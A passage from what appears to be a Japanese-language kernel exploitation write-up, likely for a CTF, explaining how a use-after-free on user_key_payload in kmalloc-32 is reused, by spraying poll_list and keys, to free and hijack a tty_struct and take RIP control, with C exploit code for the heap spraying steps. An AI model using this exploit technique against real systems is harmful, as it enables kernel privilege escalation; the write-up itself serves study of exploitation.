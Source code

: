 ![](./lgtm2)
![kheap leak success after waiting GC for a second](./lgtm3.png)

よさそう〜〜〜！

## get RIP by overwriting `tty_struct.ops`

さて、続いてRIPをとりましょう。や、取らなくても年は越せるんですが。
現状ですが、`kmalloc-32`にUAFされた`user_key_payload`(+上に乗っかっている`tty_file_private`)があります。このUAFを再利用して、今度はUAF writeをしましょう。具体的には、`poll_list`が`kmalloc-1024 -> kmalloc-32`のリストになっている時、`kmalloc-32`をUAFで上書きし、`poll_list.next`ポインタに`tty_struct(kmalloc-1024)`のアドレスを書き込んでやります。その状態で`poll_list`をfreeすることで関係ない`tty_struct`をfreeしてやることができます。`tty_struct`をUAFできたら、あとはopsを書き換えてやればいいはず...多分...!
というわけで、それらをしてくれるコードがこれです(3分クッキング感):

```.c
  // Free `seq_operations`, one of which is `user_key_payload`
  for (int ix = NUM_SEQOPERATIONS - NUM_FREE_SEQOPERATIONS; ix != NUM_SEQOPERATIONS; ++ix) {
    close(seqops_fd[ix]);
  }
  puts("[+] Freeed seq_operations");
  
  // Spray `poll_list` in kmalloc-32, one of which is placed on `user_key_payload`
  assign_to_core(2);
  neverend = 1;
  puts("[+] spraying `poll_list` in kmalloc-32...");
  num_threads = 0;
  for (int ix = 0; ix != NUM_2ND_POLLLIST_ALLOC; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = 3000; // must 1000 < timeout_ms, to wait key GC
    arg->num_size = 30 + 2;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Revoke UAFed key, which is on `poll_list` in kmalloc-32
  puts("[+] Freeing UAFed key...");
  free_key(uafed_key);
  sleep(1);

  // Spray keys on UAFed `poll_list`
  puts("[+] spraying keys in kmalloc-32");
  assert(num_keys == 0);
  {
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'X', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
     _alloc_key_prefill_ulong_val = 0xDEADBEEF;

    for (int ix = 0; ix != NUM_2ND_KEY_SPRAY; ++ix) {
      alloc_key(key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, _alloc_key_prefill_ulong);
    }
```
